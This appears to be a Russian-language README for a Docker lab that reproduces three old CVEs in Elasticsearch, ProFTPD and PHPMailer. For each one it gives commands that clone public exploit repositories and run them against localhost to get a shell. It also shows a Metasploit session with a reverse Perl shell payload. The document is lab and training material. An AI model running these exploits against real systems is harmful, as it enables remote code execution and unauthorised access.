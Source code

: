 lanaulbul
===
---

Все видео-эксплойты предоставлены на диске: https://drive.google.com/drive/folders/1GefOkyF3B7xLvMCLmc5W5yNB3mVxVcvn?usp=sharing 

CVE-2015-1427
===
docker version: 20.10.11

OS: CentOs 8

image name: elasticsearch
 
The Groovy scripting engine in Elasticsearch before 1.3.8 and 1.4.x before 1.4.3 allows remote attackers to bypass the sandbox protection mechanism and execute arbitrary shell commands via a crafted script. 

Как запустить
---
```
git clone https://github.com/XiphosResearch/exploits.git
cd exploits/ElasticSearch
sudo yum install python2
python2 elastic_shell.py localhost
```
Получаем шелл в контейнере
CVE-2015-3306
===
docker version: 20.10.11

OS: CentOs 8

image name: proftpd

The mod_copy module in ProFTPD 1.3.5 allows remote attackers to read and write to arbitrary files via the site cpfr and site cpto commands. 

Как запустить сторонний эксплойт
---
```
git clone https://github.com/t0kx/exploit-CVE-2015-3306.git
cd exploit-CVE-2015-3306
python3 ./exploit.py --host localhost --port 21 --path "/var/www/html/"
```

Тот же результат через метасплоит:
Установка metasploit
```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod +x msfinstall
./msfinstall
```
Запуск metasploit
```
msfconsole
```
Команды в metasploit
```
search ftpd
use 13
set payload /cmd/unix/reverse_perl
set rhosts 192.168.1.79
set sitepath /var/www/html
set lhost 192.168.1.79
run
```
CVE-2016-10033
===
docker version: 20.10.11

OS: CentOs 8

image name: mailer

Как запустить сторонний эксплойт
---
```
git clone https://github.com/opsxcq/exploit-CVE-2016-10033.git
cd exploit-CVE-2016-10033
./exploit localhost:8383
```
получаем шелл
	
